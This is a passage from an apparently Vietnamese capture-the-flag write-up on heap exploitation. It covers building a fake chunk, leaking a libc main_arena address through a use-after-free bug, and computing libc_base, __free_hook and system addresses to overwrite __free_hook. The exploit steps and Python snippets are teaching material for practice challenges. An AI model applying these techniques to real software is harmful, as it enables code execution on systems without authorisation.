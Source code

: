 Khi chạy thành công, ta sẽ có thể thấy chunk nhỏ đã được tạo ngay sau chunk 0:

![FakeChunkSuccessfully.png](images/FakeChunkSuccessfully.png)

Lúc này, chunk index 6 sẽ đóng vai trò như wild junk (chương trình sẽ hiểu như vậy). Ta cũng có thể thấy rằng, sau khi free 1 chunk lớn vào unsorted bin, chương trình sẽ ghi địa chỉ libc main arean vào. Ta sẽ sử dụng bug **UAF** để leak địa chỉ đó ra:

```
View(0)
```

Vậy là ta đã leak địa chỉ thành công! Cùng chuyển sang bước cuối nào.

- Bước 3: Overwrite free_hook

Khi đã có địa chỉ leak, ta chỉ việc tính toán địa chỉ libc_base, free_hook và system.
```
leak_addr = u64(View(0).split(b': ')[1].split(b'\n')[0] + b'\x00'*2)
libc_base = leak_addr - 0x1ebbe0        # Dùng GDB và lấy leak_address - libc_base sẽ ra offset
__free_hook_offset = libc.symbols['__free_hook']
__free_hook_addr = libc_base + __free_hook_offset
system_offset = libc.symbols['system']
system_addr = libc_base + system_offset
```
